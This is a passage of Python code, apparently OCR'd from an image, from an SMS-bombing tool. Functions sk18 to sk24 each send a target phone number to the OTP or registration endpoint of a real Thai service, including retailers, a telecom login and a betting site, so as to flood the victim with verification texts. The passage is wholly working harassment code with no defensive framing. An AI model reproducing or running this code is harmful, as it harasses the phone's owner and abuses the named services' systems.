              "User-Agent": useragent})

    def sk18(phone):

        post("https://graph.firster.com/graphql", headers={"User-Agent": useragent, "organizationcode": "lifestyle", "content-type": "application/json"}, json={"operationName": "sendOtp", "variables": {"input": {

             "mobileNumber": phone[1:], "phoneCode": "THA-66"}}, "query": "mutation sendOtp($input: SendOTPInput!) {\n  sendOTPRegister(input: $input) {\n    token\n    otpReference\n    expirationOn\n    __typename\n  }\n}\n"})

    def sk19(phone):

        post("https://nocnoc.com/authentication-service/user/OTP?b-uid=1.0.661", headers={"User-Agent": useragent}, json={

             "lang": "th", "userType": "BUYER", "locale": "th", "orgIdfier": "scg", "phone": f"+66{phone[1:]}", "type": "signup", "otpTemplate": "buyer_signup_otp_message", "userParams": {"buyerName": randomString(10)}})

    def sk20(phone):

        post("https://store.boots.co.th/api/v1/guest/register/otp",

             headers={"User-Agent": useragent}, json={"phone_number": f"+66{phone[1:]}"})

    def sk21(phone):

        post("https://m.lucabet168.com/api/register-otp", headers={"User-Agent": useragent}, json={

             "brands_id": "609caede5a67e5001164b89d", "agent_register": "60a22f7d233d2900110070d7", "tel": phone})

    def sk22(phone):

        session = Session()

        ReqTOKEN = session.get(

            "https://srfng.ais.co.th/Lt6YyRR2Vvz%2B%2F6MNG9xQvVTU0rmMQ5snCwKRaK6rpTruhM%2BDAzuhRQ%3D%3D?redirect_uri=https%3A%2F%2Faisplay.ais.co.th%2Fportal%2Fcallback%2Ffungus%2Fany&httpGenerate=generated", headers={"User-Agent": useragent}).text

        session.post("https://srfng.ais.co.th/login/sendOneTimePW", data=f"msisdn=66{phone[1:]}&serviceId=AISPlay&accountType=all&otpChannel=sms", headers={

                     "User-Agent": useragent, "Content-Type": "application/x-www-form-urlencoded; charset=UTF-8", "authorization": f'''Bearer {search("""<input type="hidden" id='token' value="(.*)">""", ReqTOKEN).group(1)}'''})

    def sk23(phone):

        post(url="https://www.cpffeedonline.com/Customer/RegisterRequestOTP",

             data={"mobileNumber": f"{phone}"})

    def sk24(phone):

        post(url="https://www.tgfone.com/index.php/signin/otp_chk",

             data={"mobile": f"{phone}"})
